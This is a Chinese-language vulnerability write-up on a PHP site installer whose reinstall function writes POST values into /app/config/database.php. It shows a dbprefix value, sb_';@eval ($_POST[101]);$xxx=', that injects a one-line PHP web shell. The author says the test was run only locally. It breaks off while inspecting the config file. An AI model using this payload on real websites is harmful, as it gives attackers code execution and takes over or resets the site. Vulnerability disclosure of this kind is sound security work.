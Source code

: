 　　当 step 函数的参数为 3 时，就执行安装函数 _install_do()，这个函数里初始化了数据库，并把数据库配置文件写入了“/app/config/database.php”。于是，我们可以构造一下数据包直接把一句话写入到这个配置文件里。

　　我们看到，这个函数接收了许多 post 数据：

　　$dbhost = $this->input->post('dbhost');

　　$dbport = $this->input->post('dbport');

　　$dbname = $this->input->post('dbname');

　　$dbuser = $this->input->post('dbuser');

　　$dbpwd = $this->input->post('dbpwd')?$this->input->post('dbpwd'):'';

　　$dbprefix = $this->input->post('dbprefix');

　　$userid = $this->input->post('admin');

　　$pwd = md5($this->input->post('pwd'));

　　$email = $this->input->post('email');

　　$sub_folder = '/'.$this->input->post('base_url').'/';

　　其中 dbhost、dbport、dbname、dbuser、dbpwd 都不能随便乱写，乱写的话安装就会出错，而 userid、pwd、email、sub_folder 都是写入数据库的，不写入配置文件。所以就剩下 dbprefix 了，所以我们可以这样构造这个字段：

　　dbprefix=sb_';@eval ($_POST[101]);$xxx='

## 漏洞证明

因为这个重安装漏洞破坏性太大，getshell 以后网站等于重置了，所以我没有在网上测试。测试都在本地进行~

首先在外面找一个可以外连的 mysql 账号，为的是让安装成功进行。

我这里在我 vps 上新建了一个账号 test_db_user，然后构造下面的这个数据包，发送：

![](img/0616061141961e6606980141f0b96f383f37b678.jpg)

等待一会发现返回了安装成功提示。因为我在本地测试的，所以我来到网站目录下，/app/config/database.php
